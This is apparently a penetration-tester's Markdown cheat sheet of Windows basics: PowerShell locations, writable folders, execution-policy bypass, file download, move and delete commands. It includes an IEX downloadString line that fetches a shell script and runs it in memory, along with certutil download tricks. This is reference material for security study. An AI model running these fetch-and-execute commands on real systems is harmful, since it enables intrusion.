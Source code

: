# basic

## Powershell location

```bash
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

## Writable Paths

```bash
C:\Windows\Temp
C:\Users\<USER>\Desktop\
C:\Users\Public\
C:\Documents and Settings\Public\
C:\Documents and Settings\<USER>\Desktop\
```

## PS styles

```bash
PS> $host
> powershell -c <cmd>
> powershell.exe -exec bypass -Command <>
```

### Cmds

```bash
# download file
certutil.exe -urlcache [-split] -f <source> <destination>
PS> wget <source> -OutFile <dest>
PS> Invoke-WebRequest -Uri <source> -Outfile <out-path>
powershell -c (New-Object System.Net.WebClient).downloadFile('<source>', '<dest>')
powershell -exec bypass IEX(New-Object Net.WebClient).downloadString('/shell.ps1')
wget.vbs https://gist.github.com/sckalath/ec7af6a1786e3de6c309

#run file
> ren <src> <dest>
PS> Start-Process <file.exe>

# rename 
PS> Rename-Item -Path <file> -NewName <new-file>

# move 
> copy /Y <src> <dest>
PS> Move-Item -Path <src> -Destination <dest>
# /E copies entire dir-structure
> robocopy <src> <dest> /E

# delete
PS> Remove-Item -Path <file> [-recursive]
```

### PS shorthand

```bash
# get child items
PS> gci [--recurse]

# get content
PS> gc FILE
```

## Arch based windows directory structure

| Session type   | 32 bit folder       | 64 bit folder          |
| -------------- | ------------------- | ---------------------- |
| 32 bit session | C:\Windows\system32 | C:\Windows\sysNative\\ |
| 64 bit session | C:\Windows\sysWOW64 | C:\Windows\system32\\  |
